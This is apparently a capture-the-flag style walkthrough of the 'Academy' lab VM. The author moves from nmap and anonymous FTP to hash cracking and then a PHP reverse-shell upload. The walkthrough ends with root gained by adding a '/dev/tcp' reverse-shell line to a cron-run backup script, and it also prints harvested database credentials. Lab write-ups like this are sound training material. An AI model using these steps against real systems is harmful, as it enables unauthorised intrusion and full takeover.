

# Academy

```jsx
password is => root:tcm
then you can use ip a to check the ip
```

The first step is to discover the IP address which is 172.16.2.129 in my case.

# Scanning and Enumeration:

1) Starting off with the nmap scan

```jsx
nmap -t$ -p- -A 172.16.2.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 14:20 PKT
Nmap scan report for 172.16.2.129
Host is up (0.00040s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.16.2.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:A6:6E:61 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.40 ms 172.16.2.129

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.07 seconds

```

<aside>
💡 In major cases, port 22 is a dead end, although in pentest cases, we have to scan it in order to see if the client can detect us,so based on that, we have two opportunities here.
1) FTP 
2) HTTP

</aside>

# HTTP:80 Check:

<aside>
💡 It is a default Apache webserver page, based on the nmap scans

</aside>



# FTP:21 check:

<aside>
💡 Since the nmap scan told us about the anonymous access and a ftp port, lets try that
id: anonymous
password: <empty>

</aside>

```jsx
ftp 172.16.2.129
Connected to 172.16.2.129.
220 (vsFTPd 3.0.3)
Name (172.16.2.129:wahaj): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
// Lets view the files
ftp> ls
229 Entering Extended Passive Mode (|||15503|)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
226 Directory send OK.
```

<aside>
💡 Surprisingly, there is note here, lets try to view it.

</aside>

```jsx
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||34640|)
150 Opening BINARY mode data connection for note.txt (776 bytes).
100% |*****************************************************************************************************************|   776        1.76 MiB/s    00:00 ETA
226 Transfer complete.
776 bytes received in 00:00 (851.47 KiB/s)
ftp> 
ftp> exit
221 Goodbye.
```

```jsx
> cat note.txt                                           
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.

I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.

Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```

<aside>
💡 If the note.txt was in the webserver, we could have uploaded our malware and executed it on the web, but since it isnt, we have to try some other way.

</aside>

<aside>
💡 Lets try to identify the hash format for the password.

</aside>


<aside>
💡 After determining it as being an MD5 hash, lets try to break it.

</aside>

```jsx
//save it in a hashes file
┌──(root㉿wahaj)-[/home/wahaj]
└─# mousepad hashes               
                                                                                                                                                              
┌──(root㉿wahaj)-[/home/wahaj]
└─# hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt
```

<aside>
💡 And we have a hit, password discoverd

</aside>


<aside>
💡 Now, we have to do something with the credentials, potentially on a website, lets enumerate that

</aside>

Running dirbuster for enumration. And we get a result where there is a path /acdemy lets check it out.


<aside>
💡 credentials⇒ 10201321:student (based on the note)

</aside>

and we have access.


In My profile section,


we can simply, click on the no image and open in  new tab to see where its stored.

<aside>
💡 [**http://172.16.2.129/academy/studentphoto/noimage.png**](http://172.16.2.129/academy/studentphoto/noimage.png)

</aside>

Also, if we upload a file that is not an image, it saves it, which means we can actually upload malicious code here.

Since, we know that the system is running on PHP, lets try a PHP malware.

<aside>
💡 You can get the code from
[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
and then change the ip to your ip.

</aside>

set up a listener

```jsx
┌──(root㉿wahaj)-[/home/wahaj/Desktop]
└─# nc -lvp 1234    
listening on [any] 1234 ...
```

Now upload the shell code and watch the magic.

```jsx
**┌──(root㉿wahaj)-[/home/wahaj/Desktop]
└─# nc -lvp 1234    
listening on [any] 1234 ...
192.168.1.107: inverse host lookup failed: Unknown host
connect to [192.168.1.107] from (UNKNOWN) [192.168.1.107] 55133
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 06:22:17 up  1:04,  1 user,  load average: 0.00, 0.54, 1.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                10:18   14:41   0.04s  0.01s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$whoami
www-data**
```

and boom, we have access

<aside>
💡 we dont have sudo access, so we cant check our permissions.

</aside>

# Privilege Escalation

<aside>
💡 Get linpeas from
[https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh)

</aside>

I have the file in my transfers folder, so lets up a server on there

```jsx
┌──(wahaj㉿wahaj)-[/transfers]
└─$ sudo python3 -m http.server 80  
[sudo] password for wahaj: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Uploading the payload on the /tmp folder in the website

```jsx
**$ cd /tmp
$ pwd
/tmp
$ wget http://192.168.1.107/linpeas.sh
--2023-07-29 06:36:26--  http://192.168.1.107/linpeas.sh
Connecting to 192.168.1.107:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134167 (131K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 38% 11.4M 0s
    50K .......... .......... .......... .......... .......... 76% 66.4M 0s
   100K .......... .......... .......... .                    100%  247M=0.005s

2023-07-29 06:36:26 (24.8 MB/s) - 'linpeas.sh' saved [134167/134167]
$ chmod +x linpeas.sh
$ ./linpeas.sh**

```

<aside>
💡 Lines of Interest:
**/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";**

</aside>

```jsx
$ cat /var/www/html/academy/admin/includes/config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");

?>
```

<aside>
💡 We have credentials for grimmie now. maybe we could ssh his account.

</aside>

```jsx
──(wahaj㉿wahaj)-[/transfers]
└─$ ssh grimmie@172.16.2.129  
grimmie@172.16.2.129's password: 
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 30 03:21:39 2021 from 192.168.10.31
```

<aside>
💡 SSH unlocked.

</aside>

```jsx
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ cat backup.sh 
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
grimmie@academy:~$
```

<aside>
💡 and we have a potential place for finding some more data in includes folder

</aside>

<aside>
💡 lets try to access the includes folder

</aside>

```jsx
$ ls /var/www/html/academy/includes
config.php
footer.php
header.php
menubar.php
```

<aside>
💡 config,php seems like a good place to look in

</aside>

<aside>
💡 We find the same file linpeas got for us

</aside>

```jsx
cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
```

<aside>
💡 Now lets head back to grimme, and notice that the [backup.sh](http://backup.sh) seems like a script so we can check to see if its running as  a timed script.
Download pspy from here: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

</aside>

```jsx
grimmie@academy:~$ wget http://192.168.1.107/pspy64
--2023-07-29 07:08:10--  http://192.168.1.107/pspy64
Connecting to 192.168.1.107:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                  100%[==============================================================================>]   2.96M  --.-KB/s    in 0.02s   

2023-07-29 07:08:10 (164 MB/s) - ‘pspy64’ saved [3104768/3104768]

grimmie@academy:~$ ./pspy64
-bash: ./pspy64: Permission denied
grimmie@academy:~$ chmod +x pspy64
grimmie@academy:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
```


It is indeed a script running timely.

<aside>
💡 Time to get a reverse shell in the backup script.

</aside>

```jsx
nano backup.sh
//paste this in the script and hits save
bash -i >& /dev/tcp/192.168.1.107/8080 0>&1
nc -lvp 8080

Since the script is running with root privileges, we will get a root shell.
```

<aside>
💡 Now the moment, the script is executed, we will get a root shell

</aside>


AND, we did it

